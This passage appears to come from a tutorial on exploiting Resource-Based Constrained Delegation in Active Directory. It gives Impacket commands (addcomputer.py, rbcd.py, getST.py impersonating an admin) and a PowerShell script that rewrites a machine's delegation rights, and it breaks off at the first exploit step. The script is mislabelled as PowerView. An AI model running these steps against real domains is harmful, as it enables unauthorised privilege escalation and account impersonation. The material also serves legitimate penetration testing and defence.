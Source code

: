 Impacket provides tools that can help in configuring and exploiting RBCD:

- **addcomputer.py**: This Impacket tool allows you to add a computer account to the domain. You can use it to add an account with controlled delegation rights.

```bash
python3 addcomputer.py -method LDAPS -domain <domain> -username <user> -password <password> -dc-ip <dc-ip>
```

- **rbcd.py**: A custom script in Impacket (or others you can find) to modify the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute.

Here's a general example:

```bash
python3 rbcd.py <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> -target <TARGET_SERVER> -sid <SID_OF_ATTACKER_SERVICE_ACCOUNT>
```

- **getST.py**: After setting up RBCD, you can use the `getST.py` to request a ticket for the target service using your controlled service account.

```bash
python3 getST.py <DOMAIN>/<USER>:<PASSWORD>@<DC_IP> -spn <SERVICE/INSTANCE> -impersonate <ADMIN_USER> -self
```

#### 2. **PowerShell Tools**

PowerShell can be used to configure and exploit RBCD as well:

- **PowerView**: PowerView (part of PowerShell Empire) is a useful tool for querying and modifying Active Directory delegation settings.

```powershell
# Add RBCD delegation rights to a target machine
$MachineSID = (Get-ADComputer -Identity "TARGET_MACHINE").SID.Value
$Object = Get-ADComputer -Identity "DELEGATED_MACHINE"

$SD = Get-ADComputer $MachineSID -Property "msDS-AllowedToActOnBehalfOfOtherIdentity"
$SecurityDescriptor = [System.DirectoryServices.ActiveDirectorySecurity]::new()
$SecurityDescriptor.SetSecurityDescriptorSddlForm($SD."msDS-AllowedToActOnBehalfOfOtherIdentity")
$IdentityReference = New-Object System.Security.Principal.SecurityIdentifier $Object.ObjectSID
$ace = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$SecurityDescriptor.AddAccessRule($ace)
$SD."msDS-AllowedToActOnBehalfOfOtherIdentity" = $SecurityDescriptor.GetSecurityDescriptorSddlForm("All")
Set-ADComputer $MachineSID -Replace $SD
```

This script adds a delegation rule to allow `DELEGATED_MACHINE` to act on behalf of any user to `TARGET_MACHINE`.

### Steps to Exploit RBCD

1. **Identify a Machine for Delegation**: Find a target machine where you want to perform delegation (e.g., a SQL Server or another service running under a privileged account).
